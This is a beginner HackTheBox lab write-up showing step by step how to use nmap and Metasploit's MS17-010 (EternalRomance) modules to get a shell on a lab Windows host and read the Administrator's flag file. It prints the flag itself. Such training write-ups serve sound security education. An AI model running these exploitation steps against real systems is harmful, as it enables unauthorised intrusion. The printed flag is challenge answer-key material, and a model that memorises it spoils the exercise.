









# Challenge Title: Using the Meatasploit framework 
**Platform:** HackTheBox

**Category:** Project 
**Difficulty:** Beginner

---

## 📝 Challenge Description
This module focuses entirely on using the Metasploit framework in exploiting vulnerabilities. We start by identifying an exploit and checking if our target machine is vulnerable to the exploit before exploiting it. 
---

## 🔍 Approach / Thought Process
The assiggnment will be handled in section.

---

## 🛠️ Modules
Metasploit modules are prepared scripts with a specific purpose and corresponding functions that have already been developed and tested in the wild. With these scripts we are able to perform an exploit.
---
### Quiz: Use the Metasploit-Framework to exploit the target with EternalRomance. Find the flag.txt file on Administrator's desktop and submit the contents as the Answer.
---
### step 1:I ran an Nmap scan to confirm that port 445 is open since it’s the one associate with SMB protocol and EternalRomance is a handful of exploit tools for the SMB protocol.
---
```
nmap -sC -sV 10.129.2.141
```
---

---
### step 2:I opened Metasploit framework console using the command msfconsole and searched for EternalRomance.
---
```
msfconsole
```
---
```
search eternalromance
```
---

---
### Explanation: From the question we are expect to find a flag.txt file on the administrator’s desktop. According to Metasploit module types, the type auxiliary is the one that deals with admin capabilities. From our out put its index number: 9 and name: auxiliary/admin/smb/ms17_010_command
---
### step 3: I now used the auxiliary module in my exploit endeavor using the command use 9
---
```
use 9
```
---
### step 4: I now looked for the options that need to be set for a successful exploit.
---
```
options
```
---

---
### step 5: I set all module options that were marked Required: yes, and had an empty Current Setting. That option was RHOSTS which indicates my target IP.
---
```
set RHOSTS 10.129.2.141
```
---
use options to confirm the settings
---
```
options
```
---

### step 6: I launched the exploit using the command run.
```
run
```
---

---
The exploit ran successfully but did not give me an interactive shell. Because of this I can’t get the file flag.txt. I therefore go back and look for an exploit that can give me an interactive shell.
---
### step 7: I now used the module type exploit indexed at 0 with the name exploit/windows/smb/ms17_010_psexec. I used the command use 0 and searched for options.
---
```
use 0
```
---

---
### step 8: set the LHOST: local IP and RHOSTS: target IP.
```
set LHOST 10.10.14.70
```
```
set RHOSTS 10.129.2.141
```
---

### step 9: launched the attack using command run.
```
run
```
---

The launch was successful and I accessed the interactive shell.
----
### step 10: I changed my directory to c:\users\Administrator\Desktop using cd c:\users\Administrator\Desktop command, listed the directories in Desktop using dir command and read the contents of flag.txt using type flag.txt command. 
### why: We know that we find all the users in the windows operating system under local disk c in the folder users.
```
cd c:\users\Administrator\Desktop
```
---

### step 11:To find the contents of the directory use
```
dir
```
---
### step 12: read flag.txt file
```
type flag.txt
```
---
## 🏁 Flag
`HTB{MSF-W1nD0w5-3xPL01t4t10n}`

---


